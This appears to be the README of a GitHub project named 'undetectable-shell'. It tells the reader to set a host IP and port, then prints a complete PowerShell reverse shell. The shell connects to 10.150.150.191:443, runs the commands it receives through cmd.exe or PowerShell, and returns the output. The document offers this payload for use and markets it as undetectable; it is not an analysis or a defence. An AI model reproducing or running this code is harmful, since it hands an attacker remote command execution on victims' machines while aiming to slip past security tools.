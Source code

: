 # undetectable-shell


## You need to replace HOST_IP & HOST_PORT in reverse-detected.ps1

## like :

$test='$socket = new-object System.Net.Sockets.TcpClient("10.150.150.191", 443); if($socket -eq $null){exit 1}$stream = $socket.GetStream();$writer = new-object System.IO.StreamWriter($stream);$buffer = new-object System.Byte[] 1024;$encoding = new-object System.Text.AsciiEncoding;do{$writer.Flush();$read = $null;$res = "" while($stream.DataAvailable -or $read -eq $null) {$read = $stream.Read($buffer, 0, 1024)}$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");if(!$out.equals("exit")){$args = "";if($out.IndexOf(" ") -gt -1){$args = $out.substring($out.IndexOf(" ")+1);$out = $out.substring(0,$out.IndexOf(" "));if($args.split(" ").length -gt 1){$pinfo = New-Object System.Diagnostics.ProcessStartInfo;$pinfo.FileName = "cmd.exe";$pinfo.RedirectStandardError = $true;$pinfo.RedirectStandardOutput = $true;$pinfo.UseShellExecute = $false;$pinfo.Arguments = "/c $out $args";$p = New-Object System.Diagnostics.Process;$p.StartInfo = $pinfo;$p.Start() | Out-Null;$p.WaitForExit();$stdout = $p.StandardOutput.ReadToEnd();$stderr = $p.StandardError.ReadToEnd() if ($p.ExitCode -ne 0) {$res = $stderr} else {$res = $stdout}} else {$res = (&"$out" "$args") | out-string;}} else {$res = (&"$out") | out-string;}if($res -ne $null){ $writer.WriteLine($res)}}}; While (!$out.equals("exit"))$writer.close();$socket.close();$stream.Dispose()'

